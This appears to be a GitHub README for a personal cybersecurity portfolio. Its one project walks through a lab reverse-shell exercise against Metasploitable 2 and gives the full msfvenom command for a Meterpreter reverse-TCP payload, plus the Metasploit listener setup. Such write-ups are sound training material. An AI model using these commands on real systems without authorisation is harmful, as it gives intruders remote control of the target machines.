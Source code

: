 # CyberSecurity-
Welcome to my Cybersecurity Projects repository! This collection showcases my work in ethical hacking, penetration testing, cryptography, digital forensics, vulnerability analysis, and cybersecurity research. Each project is designed to enhance security awareness, automate security processes, or analyze security vulnerabilities.

Project 1: Reverse Shell Payload Development
Tools: Kali Linux, Metasploit, msfvenomDescription: Simulated real-world attack scenarios by deploying a reverse shell payload from Kali Linux to Metasploitable 2. Established a remote command and control session, showcasing penetration testing techniques. This project enhanced my understanding of exploit development, network security, and ethical hacking methodologies.
Steps to Reproduce:

  Generate a payload using msfvenom:
    
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<port> -f elf > payload.elf
    
  Set up a listener on Metasploit:
   
    msfconsole
    use exploit/multi/handler
    set payload linux/x86/meterpreter/reverse_tcp
    set LHOST <your_ip>
    set LPORT <port>
    exploit
Execute the payload on the target machine.

This project shoukd be carried out following all ethical considerations and is meant only for educational purpose  
